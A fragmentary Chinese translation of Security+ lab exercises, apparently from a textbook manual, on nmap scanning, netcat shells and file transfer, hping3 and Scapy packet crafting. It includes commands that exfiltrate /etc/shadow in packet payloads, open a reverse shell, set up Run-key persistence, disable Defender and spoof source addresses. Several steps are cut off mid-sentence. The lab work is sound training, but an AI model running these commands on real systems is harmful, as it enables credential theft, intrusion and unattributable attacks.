

图 16-20 Wireshark 显示 DNS 服务器的证据

e. 现在尝试使用端口 67 进行 UDP 扫描：

```
nmap -sU -p 67 192.168.1.1
```

（如果不同，请替换为默认网关的 IP 地址。）

这是在那个叫做路由器的盒子里查找 DHCP 服务器。更改 Wireshark 显示过滤器端口从 53 到 67：

```
ip.addr==192.168.1.114 && udp.port==67
```

（替换为 Kali Linux VM 的 IP 地址。）

Nmap 现在报告端口 67 为开放或被过滤，如图 16-21 所示。



图 16-21 是否有 DHCP 服务器？

Wireshark 显示 DHCP 服务器没有回复，就像我们从 DNS 服务器那里得到的那样，如图 16-22 所示。

## 图 16-22 无回复

由于 DHCP 在第 4 层使用 UDP，使用 TCP 的 ACK 扫描在这里帮不了我们。

5a–5b

步骤 5 在 Nmap 的“Examples”页面（https://nmap.org/book/man-examples.html）中说明了以下内容（仅关于前两个示例）：

For testing purposes, you have permission to scan the host scanme.nmap.org. This permission only includes scanning via Nmap and not testing exploits or denial of service attacks. To conserve bandwidth, please do not initiate more than a dozen scans against that host per day. If this free scanning target service is abused, it will be taken down and Nmap will report Failed to resolve given hostname/IP: scanme.nmap.org. These permissions also apply to the hosts scanme2.nmap.org, scanme3.nmap.org, and so on, though those hosts do not currently exist.

让我们继续尝试它们！

+ a. 执行以下命令：
+ ```
+ nmap -v scanme.nmap.org
+ ```
+ 此选项扫描机器 scanme.nmap.org 上的所有保留 TCP 端口。-v 选项启用详细模式。

+ b. 执行以下命令：
+ ```
+ nmap -sS -O scanme.nmap.org/24
+ ```
+ 这针对 Scanme 所在 Class C 大小网络上的 256 个 IP 中的每个处于开启状态的机器发起一次隐蔽 SYN 扫描。它还尝试确定每个处于开启状态的主机上运行的操作系统（OS）。由于 SYN 扫描和 OS 检测，这需要 root 权限。
+ 
+ 注意输出中的丰富信息。

30 MINUTES

## 实验练习 16.02：使用 netcat (nc) 和 ncat 的套接字

渗透测试人员和网络罪犯都使用一种名为 netcat 的工具来读取、写入、管道传输和重定向网络套接字。

套接字是程序之间活动通信链路的端点

快速的网络服务器。netcat 工具可以执行横幅抓取，收集目标操作系统和其他机器上服务的信息，包括版本号。了解这些信息可以使潜在的攻击更加具有破坏性。

请注意 netcat 和 nc 指的是同一个程序。Nmap 项目推出了自己的 netcat 版本，称为 ncat，提供更多功能。Socat 是另一个提供比 netcat 更多功能的程序。然而，你会发现大多数渗透测试人员和攻击者仍然经常使用备受推崇的 netcat (nc) 实用程序。

## 学习目标

在本实验练习中，你将以多种方式使用 netcat 和 ncat，这可以是好也可以是坏。在本实验练习结束时，你将能够

- 使用 netcat 和 ncat 作为聊天服务器
- 使用 netcat 和 ncat 传输文件
- 在 Windows 和 Linux 中使用 netcat 和 ncat 打开反向 shell

## 实验材料和设置

本实验所需的材料有

- *《计算机安全原理：CompTIA Security+ 及更远》* 教科书
- 你在第 1 章安装的 Windows 10 VM
- 你在第 1 章安装的 Kali Linux VM
- 带互联网连接的 Mozilla Firefox 网络浏览器

## 开始吧！

关闭 Windows 10 VM 上的 Windows Defender 防火墙，就像你在之前的实验练习中所做的那样。

你可以通过以下步骤在 Windows 10 VM 上关闭实时保护：

1. 点击开始按钮或在搜索框中输入 **Security**。
2. 点击 Windows 安全中心。
3. 点击病毒和威胁防护。
4. 在病毒和威胁防护设置下，点击管理设置。
5. 在实时保护下，点击按钮将其关闭。
6. 在弹出窗口中点击是。
7. 点击右上角的 X 关闭窗口。

在实时保护开启的情况下，你将无法下载或安装 ncat。

在 Windows 10 VM 上，下载 ncat 的 Windows 版本。Google Chrome 在下载文件时会造成问题，因此请务必使用 Mozilla Firefox 下载 ncat。前往 https://nmap.org/ncat/ 并点击第四段中句子“You can download it inside a zip file here”中的超链接词 *here*。

选择保存文件单选按钮后，点击确定按钮。通过右键点击它，选择提取全部…，然后点击提取按钮来解压 ZIP。解压后的文件夹会自动打开。点击进入解压文件夹的子文件夹。你应该能看到 ncat.exe 二进制文件。按照以下步骤操作：

1. 在 Windows 资源管理器中点击文件夹的地址栏，选择地址并点击 CTRL-C 复制地址。
2. 通过点击 Windows 开始按钮，输入 **cmd**，右键点击命令提示符，选择以管理员身份运行，然后点击是按钮，打开一个命令提示符。
3. 输入 **cd** 然后粘贴你刚刚复制的地址（右键点击）以更改目录到 ncat 目录。

命令提示符看起来会像这样（路径中会列出你的用户名而不是我的）：

```
C:\Users\jonathan\Downloads\ncat-portable-5.59BETA1\ncat-portable-5.59BETA1
```

打开一个新的 VMware Workstation Player 实例并进入 Kali Linux VM 上的终端。

## 1a–1f

## 步骤 1 使用 netcat/ncat 创建一个简单的聊天服务器。

a. 在将作为 netcat 服务器的 Windows 10 VM 上，在你更改目录的位置，使用以下命令在端口 52000 上开始监听：

```
ncat -lp 52000
```

或者，你也可以将每个选项放在各自的短横线之后，如下所示：

```
ncat -l -p 52000
```

在弹出的 Windows Defender 防火墙窗口中，点击右下角的允许访问按钮。

-l 选项表示监听传入连接，-p 选项指定要监听的端口。

b. 在 Windows 10 VM 上启动 Wireshark 并按 Kali Linux VM 的 IP 地址进行过滤。

c. 你可以用另一个名字相似的实用程序 netstat 来验证端口是否打开。打开第二个命令提示符，因为第一个现在被锁定在 ncat 中，并输入以下内容：

```
netstat -an | more
```

-a 选项表示所有端口，包括活动连接中的端口和未参与任何当前通信的监听端口。-n 选项表示使用数字而不是名称显示 IP 地址和端口号。将 IP 地址解析为名称以及端口号解析为服务名称会减慢输出显示速度。此外，对于此类任务，实际上更直观的是直接查看 IP 地址和端口号。

找到你用 netcat 打开的端口，如图 16-23 最后一行所示。

```
Command Prompt
Microsoft Windows [Version 10.0.19041.508]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\jswics>netstat -an | more

Active Connections

Proto  Local Address          Foreign Address        State
TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
TCP    0.0.0.0:902            0.0.0.0:0              LISTENING
TCP    0.0.0.0:912            0.0.0.0:0              LISTENING
TCP    0.0.0.0:1536           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1537           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1538           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1539           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1540           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1541           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1544           0.0.0.0:0              LISTENING
TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING
TCP    0.0.0.0:31104          0.0.0.0:0              LISTENING
TCP    0.0.0.0:31105          0.0.0.0:0              LISTENING
TCP    0.0.0.0:50128          0.0.0.0:0              LISTENING
TCP    0.0.0.0:52000          0.0.0.0:0              LISTENING
```

## 图 16-23 端口 52000 是开放的。

使用 ENTER 逐行推进，使用空格键逐页推进。要退出，请按 CTRL-C。

d. 在作为 netcat 客户端的 Kali Linux VM 上，输入以下内容：

```
nc <IP Address of the Windows 10 VM running the netcat server> 52000
```

例如，如果在 IP 地址为 192.168.1.108 的机器上发出步骤 1a 中的命令，则此命令为

```
nc 192.168.1.108 52000
```

其中 192.168.1.108 指的是 netcat 服务器 IP 地址，52000 指的是该服务器上开放并监听传入连接的端口。

e. 在每台机器中开始输入。消息会出现在两台机器中，如图 16-24 所示。嗅探 Wireshark 你会发现


- b. 在 Kali Linux 虚拟机上，创建一个文本文件，在文件中输入一些文本，然后将其保存为 `bob.txt` 并关闭文件。

- c. 在 Kali Linux 虚拟机上，从你之前所在的同一目录执行以下命令（使用 Windows 10 虚拟机的 IP 地址）：

  ```
  nc -w 1 192.168.1.107 55555 < bob.txt
  ```

  使用输入重定向符（`<`），通过 IP 地址为 192.168.1.107（即 Windows 10 虚拟机）的机器的 55555 端口发送 `bob.txt` 文件的内容。

  以下是来自 nc 手册页（https://linux.die.net/man/1/nc）的内容：

  - `-w timeout`  
    如果连接和标准输入空闲超过 timeout 秒，则连接会被静默关闭。`-w` 标志对 `-l` 选项没有影响，也就是说，无论是否带有 `-w` 标志，nc 都会永远监听连接。默认情况下没有超时。

  请注意，源文件的名称与目标机器上创建的文件名称不必相同。

  如果命令没有返回到提示符，请在任意一端按 CTRL-C 终止连接。

- d. 在 Windows 10 虚拟机上，输入 `notepad alice.txt`，在记事本中查看源端 `bob.txt` 文件的内容（显示在目标端的 `alice.txt` 文件中）。然后关闭记事本。

- e. 现在互换角色，使 Kali Linux 虚拟机成为 netcat 服务器，Windows 10 机器成为 netcat 客户端。

3a–3e

### 第 3 步 使用 netcat/ncat 创建 Shell。

- a. 在 Windows 10 虚拟机上，输入以下命令，如图 16-26 所示：

Linux！

- c. 你现在输入的任何 Windows 命令都会被发送到受害机器，并在该机器上执行。尝试以下命令：

  ```
  ipconfig /all
  arp -a
  route print
  ```

- d. 你甚至可以在 Wireshark 中嗅探包含所有命令及其对应输出的所有数据包。在 Windows 10 虚拟机上，在 Wireshark 中按 `icmp` 过滤。

  在 Kali Linux 虚拟机的 Windows 命令提示符下，输入以下内容：

  ```
  ping 8.8.8.8
  ```

  实际上，你现在是通过 Kali Linux 虚拟机从 Windows 10 虚拟机发送 ping。回复将发送到 Windows 10 虚拟机！

  这种发送和接收的能力可以被用于许多恶意目的，包括使受害机器访问会投递恶意软件的系统，以及通过伪造归属使受害机器看起来是攻击的真正发起者。

  按 CTRL-C 退出 Kali Linux 中的 cmd.exe Shell。

这种 ncat Shell 创建方式（如图 16-26 所示）甚至可以通过将其添加到受害机器注册表的以下位置之一来实现持久化：

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`

- e. 现在是时候互换角色，并使用 Kali Linux 虚拟机中的 Bash 了。

在本实验练习中，你将通过多种方式使用 hping3，这些方式可能是有益的也可能是有害的。完成本实验练习后，你将能够：

- 使用 hping3 构建并发送包含各种协议的数据包
- 使用 hping3 探测机器，这比传统的 ICMP ping 更具优势
- 封装秘密负载以渗入或渗出数据
- 在 Wireshark 中分析和解读结果

## 实验材料和设置

本实验所需的材料有：

- *《计算机安全原理：CompTIA Security+ 及进阶》* 教科书
- 你在第 1 章中创建的 Kali Linux 虚拟机
- 你在第 1 章中创建的 Windows 10 虚拟机
- 可连接互联网的 Web 浏览器

## 开始操作！

在 Windows 10 虚拟机上，关闭 Windows Defender 防火墙。

在 Windows 10 虚拟机上，在 Wireshark 中使用显示过滤器 **ip.addr==** 后跟 Kali Linux 虚拟机的 IP 地址开始嗅探。定位并分析相关流量。

每输入一条命令后按 ENTER 键。

1a–1e

### 第 1 步 使用 hping3 发送带有自定义负载的流量，包括 /etc/shadow 文件的内容。

- a. 在 Kali Linux 中，输入 `man hping3` 查看该工具的信息。

- b. 输入以下命令，使用 hping3 发送一个带有默认设置的数据包：

  ```
  sudo hping3 -c 1 192.168.1.108
  ```

  （替换为 Windows 10 虚拟机的 IP 地址。）

  以下是来自 hping3 手册页（https://linux.die.net/man/8/hping3）的内容：

  `-c --count count`

  在发送（和接收）count 个响应数据包后停止。在最后一个数据包发送后，hping3 会等待 `COUNTREACHED_TIMEOUT` 秒以接收目标主机的回复。你可以通过编辑 `hping3.h` 来调整 `COUNTREACHED_TIMEOUT`。

  默认情况下，hping3 使用 TCP，源端口号随机，目标端口号为 0，这保证该端口在目标机器上不会开放。虽然端口 0 被定义为无效端口号，但仍然可以向端口 0 发送流量并从端口 0 接收流量。额外的好处是，发送到端口 0 的 TCP 段很可能不会出现在日志文件中，因此保持隐蔽的机会更大。

- c. 输入以下命令，使用带有自定义负载的 hping3：

  ```
  sudo hping3 -c 1 192.168.1.108 -e "CompTIA Security+"
  ```

  （替换为 Windows 10 虚拟机的 IP 地址。）

  输出应如图 16-30 所示，在 Wireshark 中应看到的内容参见图 16-31。

  

**图 16-30** hping3 输出



**图 16-31** 使用 hping3 发送的消息 CompTIA Security+

以下是来自 hping3 手册页的内容：

`-e --sign signature`

用 *signature* 填充数据的前 *signature length* 个字节。如果 *signature length* 大于数据大小，则会显示错误消息。如果你未指定数据大小，hping3 将使用签名大小作为数据大小。此选项可以安全地与 `--file filename` 选项一起使用；数据空间的剩余部分将使用 *filename* 填充。

现在你可以封装自己的负载了。这种用法的一个很好的场景是攻击者与受害系统上的恶意软件之间的隐蔽通信。攻击者可以用这种方法向恶意软件发出命令，这些命令会混入正常的 TCP 流量中，然后被恶意软件读取并执行。

- d. 创建和发送数据是一回事；渗出数据则是另一回事。

以下是来自 hping3 手册页的内容：

`-d --data data size`

设置数据包主体大小。警告：使用 `--data 40` 时，hping3 不会生成 0 字节的数据包，而是生成 protocol_header + 40 字节的数据包。hping3 会将数据包大小信息显示为输出的第一行，如下所示：

**HPING www.yahoo.com (ppp0 204.71.200.67): NO FLAGS are set, 40 headers + 40 data bytes**

`-E --file filename`

使用 *filename* 的内容填充数据包的数据。

输入

```
ls -l /etc/shadow
```

查看包含密码哈希的 /etc/shadow 文件有多大。

### 交叉引用

你在第 5 章和第 11 章中针对 /etc/shadow 文件进行了实验练习。你在第 2 章中进行了使用 `ls -l` 的实验练习。

以下是我得到的输出：

```
-rw-r----- 1 root shadow 3592 Jul 20 17:04 /etc/shadow
```

时间戳前面的数字是文件大小（以字节为单位）。在我的例子中，是 3592 字节。

- e. 输入以下命令，指定合适的 /etc/shadow 文件负载大小，以窃取密码哈希：

  ```
  sudo hping3 -c 1 192.168.1.108 -d 3592 -E /etc/shadow
  ```

  （替换为 Windows 10 虚拟机的 IP 地址，并替换为你自己的 /etc/shadow 文件的大小。）

  你会在 Windows 10 虚拟机的 Wireshark 中注意到，数据包被分片了。检查负载并在 Wireshark 中找到 /etc/shadow 文件的各个部分。

2a–2h

### 第 2 步 使用 hping3 发送带有多种协议自定义负载的流量。

- a. 输入以下命令，发送 UDP（而不是默认的 TCP），并带有自定义负载：

  ```
  sudo hping3 -c 1 192.168.1.108 -e "FLCC" -2
  ```

  （替换为 Windows 10 虚拟机的 IP 地址。）

  `-2` 选项指定使用 UDP。与 TCP 作为第 4 层协议时一样，再次使用端口 0。

  在 Wireshark 中查找“FLCC”。

- b. 输入以下命令，发送 ICMP（而不是默认的 TCP），并带有自定义负载：

  ```
  sudo hping3 -c 1 192.168.1.108 -e "RIT" -1
  ```

  （替换为 Windows 10 虚拟机的 IP 地址。）

  `-1` 选项指定使用 ICMP。由于 ICMP 是第 3 层协议，而端口存在于第 4 层，因此发送的是 ICMP 回显请求（类型 8），而不是目标端口为 0 的 TCP 段或 UDP 数据报。

  与历史悠久的 ping 工具相比，使用带 ICMP 的 hping3 更具优势，因为你可以指定其他 ICMP 负载以及其他类型和代码，而不是使用操作系统在 ping 工具中所选择的默认值。

  在 Wireshark 中查找“RIT”。

- c. 你会注意到，在 Wireshark 的数据包详情窗格（中间窗格）中，IP 头（单击任何数据包中“Internet Protocol Version 4”旁边的箭头即可查看）包含一个名为 Protocol 的字段，该字段以类似方式标识 IP 数据包中封装的上层协议（最常见的是 ICMP、TCP 和 UDP），就像以太网帧的 Type 字段（单击 Ethernet II 旁边的箭头即可查看）标识以太网帧内部的内容（最常见的是 ARP 或 IP）一样。Wireshark 会显示以太网帧格式，即使你在使用 802.11 帧的 Wi-Fi 上也是如此。


每个协议都由一个协议号标识。不要将协议号与端口号混淆。端口号标识程序和服务的连接端点，例如 53 代表 DNS。协议号标识封装在 IP 头中的协议。最常见的协议号是 1（ICMP）、6（TCP）和 17（UDP）。你可以在 https://www.iana.org/assignments/protocol-numbers/protocol-numbers.xhtml 查看完整列表。

在 Wireshark 中，找到你从 Kali Linux VM 发送的 ICMP 回显请求中协议号字段值为 1 的位置。

d. 输入以下命令以使用原始 IP 模式，这正是 -0 选项所指定的：

```
sudo hping3 -c 1 192.168.1.108 -e "Syracuse University" -0
```

（将 IP 地址替换为 Windows 10 VM 的 IP 地址。）

与到目前为止 TCP、UDP 和 ICMP 的情况不同，你没有在 Layer 3 数据包内指定任何要包含的内容。相反，你直接将数据放入 IP 数据包中，而不考虑正确的头部和值。

在 Wireshark 中找到 “Syracuse University”。你会注意到，“Syracuse University” 正被误解为 TCP 头的字节，从源端口和目标端口字段开始。在 Wireshark 的数据包详情窗格（中间窗格）中单击 TCP 部分中的源端口字段，该字段显示源端口为 21369。你会注意到，在数据包字节窗格（底部窗格）中，左侧的十六进制转储突出显示了 53 79，右侧的 ASCII 部分突出显示了 Sy（来自 Syracuse 的有效载荷）。如 https://www.asciitable.com 所示，S 的基 16（十六进制）值为 53，y 的基 16（十六进制）值为 79。将基 16（十六进制）值 5379 转换为基 10（十进制）得到 21369，这就是 Wireshark 将 21369 显示为源端口的原因。同样的逻辑也适用于 ra（来自 Syracuse 的有效载荷），其十六进制为 7261，十进制为 29281，这正是目标端口字段显示的值。

Wireshark 会提示这是一个畸形数据包，因为 TCP 头的最后一个字段“紧急指针”（Urgent Pointer）无法由字符串 “Syracuse University” 的长度来表示。

如果你使用 “Syracuse University, New York,” 作为有效载荷，你将填满该头部，并在末尾多出 8 个字节，这些字节会被误认为是 TCP 选项，因此不会出现畸形数据包消息。但是，你会注意到紧急指针字段（现在出现在 Wireshark 的这个 TCP 头中）的值为 31020，这会导致 Wireshark 显示另一条消息：“78 bytes says option goes past end of options.”

e. 输入以下命令，发送比上一条命令更少的字节：

```
sudo hping3 -c 1 192.168.1.108 -e "Syracuse" -0
```

（将 IP 地址替换为 Windows 10 VM 的 IP 地址。）

注意，在 Wireshark 中，当只发送 “Syracuse” 时，只会显示源端口和目标端口字段，因为这次 Wireshark 用来填充其余字段的字节更少（没有空白字符，十六进制数字 20 表示空白，也没有 University 这个词）。

f. 输入以下命令，在原始 IP 模式下使用 UDP：

```
sudo hping3 -c 1 192.168.1.108 -e "Nazareth College" -0 -H 17
```

（将 IP 地址替换为 Windows 10 VM 的 IP 地址。）

以下内容来自 hping3 手册页：

- `-H --ipproto`  
  在原始 IP 模式下设置 IP 协议。

如前所述，17 是 UDP 的协议号。

Wireshark 仍然不满意，因为它期望的是一个 UDP 数据报及其相应的字段和值位于通常的位置。

在 Wireshark 中找到 “Nazareth College”。

如果仔细观察，在 Wireshark 中，“Nazareth” 的字节被解释为 8 字节的 UDP 头，而空白字符和 7

每个发送的数据包的编号。收到数据包时，序列号可计算为 *replies.dest.port - base.source.port*。默认基础源端口是随机的，使用此选项可以设置不同的数字。如果你希望源端口不随每个发送的数据包递增，请使用 *-k --keep* 选项。

在 Wireshark 中按 **tcp.port==536** 过滤。

d. 输入以下命令，使用 hping3 伪造源端口、目标端口和源 IP 地址：

```
sudo hping3 -c 1 192.168.1.108 -s 536 -p 9999 --rand-source
```

（将 IP 地址替换为 Windows 10 VM 的 IP 地址。）

以下内容来自 hping3 手册页：

- `-p --destport [+] [+] dest port`  
  设置目标端口，默认为 0。如果目标端口号前有 ‘+’ 字符（例如 +1024），则每收到一个回复，目标端口就会递增。如果目标端口号前有两个 ‘+’（例如 ++1024），则每发送一个数据包，目标端口就会递增。默认情况下，可以使用 **CTRL+z** 交互式地修改目标端口。

在 Wireshark 中按 **tcp.port==536** 过滤。

这对于通过某个端口上的易受攻击服务向目标机器发送流量非常有用，且不会留下任何关于源 IP 地址或源端口的归属信息。

30 分钟

## 实验 16.04：使用 Scapy 进行数据包构造

如果你觉得用 hping3 构造数据包很巧妙，那么等你看完 Scapy 能做什么再说吧！与 hping3 由在终端输入的命令组成不同，Scapy 使用 Python 接口来构造和发送数据包。Scapy 允许你输入单个命令，甚至可以编写脚本。在 https://scapy.net/ 上了解更多关于 Scapy 的信息。

同样的主题仍在继续：这个工具既可以用于正当目的，也可以用于恶意目的。

### 学习目标

在本实验中，你将使用 Scapy 构造数据包。完成本实验后，你将能够：

- 使用 Scapy 构造并发送包含各种协议的数据包
- 执行 SYN 洪泛攻击，并理解攻击者如何利用 TCP 发起拒绝服务（DoS）攻击
- 使用 Wireshark 解读结果

### 实验材料和设置

本实验所需的材料有：

- *《计算机安全原理：CompTIA Security+ 及进阶》* 教材
- 你在第 1 章创建的 Kali Linux VM
- 你在第 1 章创建的 Windows 10 VM
- 可连接互联网的 Web 浏览器

### 让我们开始吧！

在 Kali Linux VM 上，打开一个终端。

在 Windows 10 VM 上，关闭 Windows Defender 防火墙。

在 Windows 10 VM 上，在 Wireshark 中使用显示过滤器 **icmp** 开始抓包。定位并分析相关流量。

确保你的语法正确。缺少一个括号或斜杠（或多加一个）都可能导致错误。Python 同样区分大小写。要退出 Scapy 中的任何操作，请按 CTRL-C。在每条命令或函数调用后按 ENTER 键。


### 步骤 1：使用 Scapy 发送自定义 ICMP 回显请求

a. 按如下方式启动 Scapy：

```
sudo scapy
```

如果出现 “Can’t import PyX. Won’t be able to use psdump() or pdfdump()” 消息，请忽略它。

b. 调用 **exit()** 函数退出 Scapy：

```
exit()
```

c. 在 Kali Linux VM 上，再次启动 Scapy。

d. 在 Scapy 提示符下，输入以下命令，使用 **send()** 函数发送一个 IP 数据包，该数据包由 **IP()** 函数创建，内部包含一个由 **ICMP()** 函数创建的 ICMP 回显请求数据包：

```
send(IP(dst="192.168.1.108")/ICMP()/"Staten Island, NY")
```

（将 IP 地址替换为 Windows 10 VM 的 IP 地址。）

唯一指定的值是：IP 数据包的目标 IP 地址应为 Windows 10 VM 的 IP 地址，ICMP 有效载荷应为 “Staten Island”。

你将在 Scapy 中看到已发送一个数据包的确认信息，如图 16-32 所示。



图 16-32 Scapy 发送了一个数据包。

在 Wireshark 中，在 ICMP 回显请求和随后的 ICMP 回显回复中找到 “Staten Island” 的有效载荷。

e. 在 Scapy 提示符下，一次一条地输入以下两条命令：

```
send(IP(src="1.9.9.7",
dst="192.168.1.108")/ICMP()/"College of Staten Island")
```

```
send(IP(src="2.0.0.5",
dst="192.168.1.108")/ICMP()/"Brooklyn College")
```

（将 IP 地址替换为 Windows 10 VM 的 IP 地址。）

这些命令发送带有自定义有效载荷和伪造 IP 地址的 ICMP 回显请求。对于每条命令，你都会在 Scapy 中看到 “Sent 1 packets.”，如图 16-33 所示。

